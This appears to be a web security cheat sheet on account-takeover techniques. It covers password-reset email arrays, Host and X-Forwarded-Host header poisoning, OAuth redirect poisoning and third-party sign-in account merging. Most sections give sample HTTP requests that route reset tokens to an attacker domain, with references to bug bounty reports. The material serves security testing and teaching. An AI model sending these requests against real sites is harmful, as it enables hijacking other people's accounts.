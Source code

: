 Account takeover allows you to take full control on the user's account.

# Password Recovery

Password recovery functionality is often implemented by sending a one-time link to email. 

## Several Email Addresses

Sometimes you can takeover an account by specifying several email addresses in the password recovery request. For example, if an application is vulnerable to such an attack, on a similar request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```

an application will send the same recovery link to two email addresses.

## Host Header Poisoning

Applications can use the `Host` header value for generating a password recovery link. If the application is vulnerable to `Host` header poisoning, you could affect the link and specify its own domain name. As a result, if the victim follows the link from the email, the recovery token will leak to the you.

There are several ways to implement `Host` header poisoning.

### X-Forwarded-Host Header

The [X-Forwarded-Host](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-Host) header is a header for identifying the original host requested by the client in the `Host` request header. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### X-Host Header

`X-Host`, like `X-Forwarded-Host`, sometimes is used to identifying the original host. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
X-Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Several Host Header

You can try specifying several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

### Host Header Replacement

You can try replace the `Host` header on your domain. Examples of vulnerable requests:

```http
POST /users/password HTTP/1.1
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

```http
POST /users/password HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Password Reset link hijacking via Host Header Poisoning](https://hackerone.com/reports/226659)

# OAuth

## Host Header Poisoning

Poisoning the `Host` header can lead to account takeover not only during password recovery, but also OAuth authentication. Sometimes you can affect `redirect_uri` by poisoning the `Host` header. As a result, when the victim exchanges the authorization code for access token, he / she will send a request with this token to your domain. Example of vulnerable request:

```http
GET /twitter/login HTTP/1.1
Host: attacker-website.com/vulnerable-website.com
```

References:

- [Write up: Account Takeover in Periscope TV](https://hackerone.com/reports/317476) 

# Third-party Sign-in or Sign-up

Applications that implement third party sign-in or sign-up often identify users based on the attached email address that the third party application sends. In such cases, you can try sign-in or sign-up with two different third-party applications that are linked to the same email address. Sometimes these two accounts can be joined and you will have access to the victim's account by sign-in or sign-up with your third-party application account.

For example, suppose a victim sign-in or sign-up to `vulnerable-website.com` with `third-party-app1.com`, which is linked to `victim@website.com`. To exploit this, you can try the following:

1. Create an account at `third-party-app2.com` and enter the `victim@website.com` email address (ideal if email confirmation is not required),
2. Try sign-in or sign-up at `vulnerable-website.com` through `third-party-app2.com`,
3. If the application is vulnerable, then you will have access to the victim's account.

References:

- [Write up: account takeover https://teamplay.qiwi.com](https://hackerone.com/reports/439207)

# Adding or Changing Email Addresses

If the operations of adding a new email address or changing an existing one do not require password confirmation, session hijacking, XSS or CSRF can lead to account takeover.
